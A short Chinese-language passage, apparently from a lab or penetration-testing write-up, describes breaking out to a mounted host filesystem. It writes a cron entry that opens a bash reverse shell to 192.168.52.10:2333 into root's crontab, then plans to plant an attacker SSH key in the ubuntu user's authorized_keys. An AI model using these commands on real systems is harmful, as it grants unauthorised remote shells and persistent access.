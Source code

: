 ![截图](11d0473e4016bd7030e65ceab923861a.png)

挂载成功，写入计划任务

```
echo '* * * * * bash -i >& /dev/tcp/192.168.52.10/2333 0>&1' >> /hello/var/spool/cron/root
```

![截图](0e1fb72ceabe56549ae480c97e6ac357.png)

没有反应0.0

换另一个思路，翻一下看看可不可以访问root目录或查看home有没有用户

![截图](18329fba67a262d9e2c8313245d3ca3d.png)

可以看到有ubuntu这个用户

接下来就可以将我们自己生成的ssh秘钥写入到/hello/home/ubuntu/.ssh目录中的authorized_keys文件中，写入成功之后就可以使用该密钥进行登陆该机器

```
ssh-keygen -f hello
chmod 600 hello #赋予权限
```
